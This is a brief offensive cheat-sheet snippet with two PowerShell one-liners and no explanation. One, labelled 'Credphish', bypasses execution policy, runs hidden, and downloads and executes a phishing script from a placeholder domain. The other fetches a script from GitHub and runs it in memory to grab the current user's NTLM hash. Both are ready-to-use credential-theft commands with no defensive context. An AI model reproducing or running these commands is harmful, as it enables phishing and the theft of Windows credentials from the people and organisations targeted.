 
Credphish:  
```powershell -ep bypass -WindowStyle hidden -c "Invoke-WebRequest -URI 'https://<domain>.com/phish.ps1'|iex"```

Get NTLM-hash of current user:  
```powershell -ep bypass -c "IEX(New-Object Net.Webclient).DownloadString('https://github.com/elnerd/Get-NetNTLM/raw/master/Get-NetNTLM.ps1'); Get-NetNTLM-Hash"```
